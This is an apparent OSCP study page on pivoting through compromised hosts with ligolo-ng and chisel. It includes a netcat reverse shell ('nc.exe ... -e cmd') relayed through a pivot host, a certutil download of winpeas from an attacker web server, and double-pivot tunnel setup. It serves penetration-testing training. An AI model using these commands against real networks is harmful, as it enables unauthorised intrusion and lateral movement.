# Pivoting for OSCP

{% embed url="https://www.youtube.com/watch?v=DM1B8S80EvQ&t" %}

{% embed url="https://github.com/nicocha30/ligolo-ng" %}

If we're on a Active directory machine and attacking from a kali, we have to download windows agent end linux proxy from releases:

<figure><img src="../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

On kali:

```
sudo ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

On target machine:

```
./agent.exe -connect <IP-KALI>:11601 -ignore-cert
```

back on ligolo listener:

```
session
1
start 
```

and on another terminal on kali we add the subnet we want to access:

```
sudo ip route add 10.10.14.0/24 dev ligolo
```

### Reverse shells from internal network

Add listener on ligolo proxy ->

```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

any connection that comes in to MS01 from port 1234 will be forwarded to our localhost on port 4444

we can check listener with

```
listener_list
```

So now we set up our listener on our kali:

```
rlwrap nc -nlvp 4444
```

Let's say MS01 has internal IP of 10.10.120.131, on our target machine we will change the IP of the listener to ip of MS01:

```
nc.exe 10.10.120.131 1234 -e cmd
```

And from that we should catch our shell up and running

### File transfer from internal network

We go back in the ligolo proxy ->

```
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
```

We choose port 80 because we'll run our python webserver on port 80

let's say we host winpeas ->

```
python -m http.server 80
```

on the target machine:

```
certutil -urlcache -f http://<MS01>:1235/winpeas.exe winpeas.exe
```

and the file will be transfered

### Double Pivot

{% embed url="https://www.youtube.com/watch?v=LiaBVuz2B4o" %}

Let's say we have a successfull pivot, we manage to get a shell on a machine and discover a new subnet we want to scan:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

on our kali:

```
sudo ip tuntab add user felix mode tun ligolo1; sudo ip link set ligolo1 up
```

On the ligolo session:

```
listener_add --addr 0.0.0.0:9000 --to 127.0.0.1:9001 -tcp
#check if up:
listener_list
```

Then we transfer our agent on the ubuntu machine we control and type:

```
./agent --connect 172.16.0.2:9001 -ignore-cert
```

On ligolo session:

```
session
2
#check:
ifconfig
```

On our kali:

```
sudo ip route add 10.10.10.0/24 dev ligolo1
```

and ligolo session:

```
start --tun ligolo1
```

### **Local Service running on target**

**🔹 With SSH**

If you have SSH access, forward port `8000` from the target to `9999` on your local machine:

```bash
ssh -L 9999:127.0.0.1:8000 user@192.168.212.103
```

**🔹 With Chisel (No SSH Access)**

1.  **Start Chisel Server** (on your machine):

    ```bash
    chisel server --reverse --port 9999
    ```
2.  **Start Chisel Client** (on the target machine):

    ```bash
    chisel client YOUR_IP:9999 R:9999:127.0.0.1:8000
    ```

Now, access the service at `http://127.0.0.1:9999`.&#x20;
